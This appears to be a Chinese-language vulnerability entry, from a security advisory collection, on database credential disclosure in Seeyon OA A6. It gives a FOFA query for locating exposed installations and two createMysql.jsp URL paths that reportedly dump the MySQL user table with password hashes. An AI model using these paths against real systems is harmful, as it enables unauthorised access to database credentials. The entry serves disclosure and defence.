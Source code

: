 # 致远OA A6 createMysql.jsp 数据库敏感信息泄露

## 漏洞描述

致远OA A6 存在数据库敏感信息泄露，攻击者可以通过访问特定的URL获取数据库账户以及密码 MD5

## 漏洞影响

```
致远OA A6
```

## FOFA

```
title="致远A8+协同管理软件.A6"
```

## 漏洞复现

当访问如下URL时执行了SQL语句 `select *from mysql.user;` 进行查询并返回到页面中

```
/yyoa/createMysql.jsp
/yyoa/ext/createMysql.jsp
```

![image-20220520152725777](./images/202205201527828.png)

![image-20220520152737237](./images/202205201527304.png)